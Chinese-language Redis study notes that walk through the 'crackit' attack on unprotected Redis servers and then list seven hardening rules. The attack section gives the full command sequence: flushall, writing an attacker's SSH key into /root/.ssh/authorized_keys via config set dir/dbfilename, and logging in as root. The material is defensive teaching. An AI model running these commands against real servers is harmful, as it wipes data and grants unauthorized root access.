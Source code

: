 ### 安全问题

#### 案例 - 全球crackit攻击

* 过程示意图

  ![](C:\Users\narli\Desktop\learning\Redis\12.Redis开发规范与安全\images\crackit示意图.PNG)

* 被攻击者存在问题

  * redis没有设置密码
  * redis可以通过公网ip访问
  * redis使用默认端口启动
  * redis没有绑定特定网卡
  * redis以root启动

* 攻击流程

  * 攻击前尝试连接到被攻击者服务器

    ```bash
    >> ssh root@123.45.67.89 # 失败，因为你没有密钥，也没有ssh-keygen
    ```

  * 由于被攻击者外网开放，且使用默认端口，且没有限制网卡流量

    ```bash
    >> redis-cli -h 123.45.67.89 -p 6379 ping
    >> PONG
    >> redis-cli -h 123.16.14.182 -p 6379 flushall
    >> OK
    ```

  * 在攻击者服务器生成一个公钥，并将公钥保存到一个id_rsa.pub中

    ```bash
    >> ssh-keygen -C rsa -t "email@gmail"
    >> cat id_rsa.pub
    ```

  * 将公钥内容作为value添加到redis中

    ```bash
    >> redis-cli -h 123.45.67.89 -p 6379 -x set crackit
    >> redis-cli -h 123.45.67.89 -p 6379 get crackit
    ```

  * 将redis的dir设置为/root/.ssh目录，dbfilename设置为authorized_keys

    ```bash
    123.45.67.89:6379> config set dir /root/.ssh
    OK
    123.45.67.89:6379> config set dbfilename authorized_keys
    OK
    123.45.67.89:6379> save
    OK
    ```

  * 此时，因为被攻击者服务器上已经有了攻击者的公钥，即攻击者可以用ssh进行登录



#### 安全七法则

* 设置密码

  * 服务端配置：requirepass和masterauth
  * 客户端连接：auth命令和-a参数
  * 注意事项
    * 密码要足够复杂，因为redis性能太强，暴力破解比较简单
    * 不要忘记masterauth
    * auth是通过明文传输的，所以是有被盗窃的风险

* 伪装危险命令

  * 原理：类似linux的alias，将一些命令重新起个名字

  * 实现：在配置文件中

    ```bash
    rename-command flushall abc
    ```

  * 注意事项

    * 不支持动态 config set
    * RDB或AOF如果包含有rename-command之前的命令，将无法使用
    * config命令本身在redis内核中会使用到，不建议重命名

* 绑定网卡

  * 通过bind命令来限制redis可以接收的流量的网卡

  * 实现：在配置文件中

    ```bash
    bind 127.0.0.1
    ```

  * 注意事项：

    * bind不支持config set
    * bind 127.0.0.1要谨慎，因为这样做就只能接收到本机流量
    * 如果存在外网网卡就尽量屏蔽掉

* 防火墙

  * 最强的，最安全的技术

* 定期备份

  * 避免数据丢失，非常重要的措施

* 不使用默认端口

  * 参考全球crackit攻击中使用默认端口6379启动redis而带来的危害

* 使用非root用户启动

  * 参考全球crackit攻击中使用root启动redis而带来的危害

